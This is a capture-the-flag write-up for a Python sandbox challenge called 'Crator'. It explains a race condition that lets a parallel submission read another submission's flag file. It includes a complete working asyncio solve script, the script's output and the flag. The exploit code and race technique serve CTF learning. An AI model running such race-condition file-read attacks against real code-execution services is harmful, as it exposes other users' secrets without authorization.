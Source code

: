 ```yaml
---
ai_date: 2025-04-27 05:18:29
ai_summary: Exploited race condition to read previous submission's flag by predicting and targeting its ID
ai_tags:
  - race
  - file-read
  - rce
created: 2024-08-17T21:27
points: 257
solves: 63
updated: 2025-07-14T09:46
---
```


Yet-Another-Python-Sandbox-Or-Is-It?
## problem

- Sandboxed python again?
- We are allowed to read files, just not the `/tmp/[id].expected` file which contains the flag.

But each submission is only forbidden from accessing their own `.expected` file, what if we read it from a previous submission?

## solution

Submit a dummy lagging code, it will pass the first test case and hang on the second one. We will predict its id and store it as `I`.

There will be a ~1s window where `/tmp/{I}.expected` will contain the flag.

```python [lag_machine.py]
i = input()
if "Welcome to Crator" not in i:
    for i in range(10**9):
        print(i)
else:
    print(i)
```

While the request is happening, send multiple new submissions each trying to read the file `/tmp/{I}.expected`, and print the results.

The sandboxed `open` only checks for 1 id, so they will be able to read the file without issue.

```python
w = True # print 1 instance of 'Welcome...' for sanity purpose
for i in range(10**9):
    try:
        with open("/tmp/{target}.expected") as f:
            r = f.read()
            if 'Welcome' not in r or w:
                print(r,flush=True)
                w=False
    except Exception as e: # handle file not exist issues
        pass
```

Yes, there is no sandbox breakout, just some race condition.
## solve script

```python [solve.py]
import re
import time
import aiohttp
import asyncio


sid = 0
t = 'https://crator-2de64099b8890ab7.instancer.idek.team'

lagging_code = '''
i = input()
if "Welcome to Crator" not in i:
    for i in range(10**9):
        print(i)
else:
    print(i)
'''


async def init(s):
    global sid
    await s.post(f"{t}/register", data={'username': 'kumo', 'password': 'kumo'})
    await s.post(f"{t}/login", data={'username': 'kumo', 'password': 'kumo'})
    r = await s.post(f"{t}/submit/helloinput", data={'code': 'print("hello")'}, allow_redirects=True)
    sid = int(str(r.url).split('/')[-1])
    sid += 1


async def thief(s, target, delay=0):
    time.sleep(delay)
    r = await s.post(f"{t}/submit/helloinput", data={'code': f'''
w = True
for i in range(10**9):
    try:
        with open("/tmp/{target}.expected") as f:
            r = f.read()
            if 'Welcome' not in r or w:
                print(r,flush=True)
                w=False
    except Exception as e:
        pass'''})
    text = await r.text()
    if 'idek{' in text:
        print(re.search(r'idek{(.*)}', text).group(0))


async def attack_chain(s):
    global sid
    jobs = []
    jobs.append(s.post(f"{t}/submit/helloinput", data={'code': lagging_code}))
    for i in range(5):
        jobs.append(thief(s, sid, i/10))
    await asyncio.gather(*jobs)
    print("chain executed", sid, '..', sid+5, t)
    sid += 6


async def main():
    global sid
    async with aiohttp.ClientSession() as s:
        await init(s)
        await attack_chain(s)

asyncio.run(main())
```

```sh
$ python solve.py
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
chain executed 2 .. 7 https://crator-2de64099b8890ab7.instancer.idek.team
```

```flag
idek{1m4g1n3_n0t_h4v1ng_pr0p3r_s4ndb0x1ng}
```